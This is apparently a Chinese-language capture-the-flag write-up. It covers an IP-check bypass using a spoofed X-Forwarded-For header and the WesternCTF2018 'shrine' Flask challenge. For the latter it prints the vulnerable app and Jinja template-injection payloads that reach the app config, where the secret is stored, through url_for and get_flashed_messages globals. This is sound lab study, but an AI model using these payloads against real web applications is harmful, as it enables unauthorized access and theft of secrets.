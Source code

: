 访问flag.php

> 我已经把购买者的IP保存了，显然你没有购买
>
> 验证逻辑是在后端的，除了购买者和我自己，没有人可以看到flag

提示和ip有关，添加http头试试

```
X-Forwarded-For: 127.0.0.1
```

flag就出来了

## [WesternCTF2018]shrine

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

```
app.config['FLAG'] = os.environ.pop('FLAG')
在app的config内定义了FLAG参数，参数的值为os环境变量的FLAG值，读取config就行了
```

payload

```
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

